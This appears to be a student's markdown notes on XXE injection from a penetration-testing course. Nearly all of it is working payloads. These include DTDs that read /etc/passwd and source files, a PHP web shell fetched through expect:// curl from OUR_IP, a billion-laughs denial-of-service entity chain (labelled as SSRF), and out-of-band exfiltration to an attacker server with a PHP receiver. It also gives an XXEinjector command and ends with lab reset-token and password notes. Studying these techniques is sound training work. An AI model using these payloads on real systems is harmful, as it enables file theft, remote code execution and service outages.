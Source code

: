 XML DTD
XML Document Type Definition (DTD) allows the validation of an XML document against a pre-defined document structure.

# Tools
https://www.convertjson.com/json-to-xml.htm
https://github.com/payloadbox/xxe-injection-payload-list
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md
https://github.com/payloadbox/xxe-injection-payload-list/blob/master/Intruder/xxe-injection-payload-list.txt.txt
# Local file Disclosure
1. Identify vulnerable element. 
2. Develop DTD. 
```
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>


<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>


```

3.  Add to Post Request and call the entity " Company"
```xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
 <!ENTITY test "Test LFI">
]>
<root>
<name>First</name>
<tel>1111111111</tel>
<email>&test;</email>
<message>111111111</message>
</root>
```

## PHP wrapper

```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```


## PHP Reverse shell
```
$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
$ sudo python3 -m http.server 80

<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
```

# SSRF exploitation using XXE Vulnerability
```
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

# XML Parameter Entities
Use a `%` character that only can be used in DTD. 
```

$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
$ python3 -m http.server 8000



<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
```

# Error Based XXE
```
#Create a dtd. 
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">


Send the below from burp
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>


```

# Blind Data Exfiltration

## Out-of-band Data Exfiltration
Step 1. 
Create a dtd file
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
Step 2. 
create a index.php 
```
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
Step 3. 
Start a php server
```
php -S 0.0.0.0:8000
```

Step 4. 
Send a payload using a proxy tool. 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

# Automated OOB Exfiltration

https://github.com/enjoiz/XXEinjector
```

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT


$ruby XXEinjector.rb --host=127.0.0.1 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter


cat Logs/10.129.201.94/etc/passwd.log 

```



# Skill Assessment
GET on /api.php/user/74
Gives account information

Post on /reset.php
Allow you to change password


52

uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=Academy_student!

a.corrales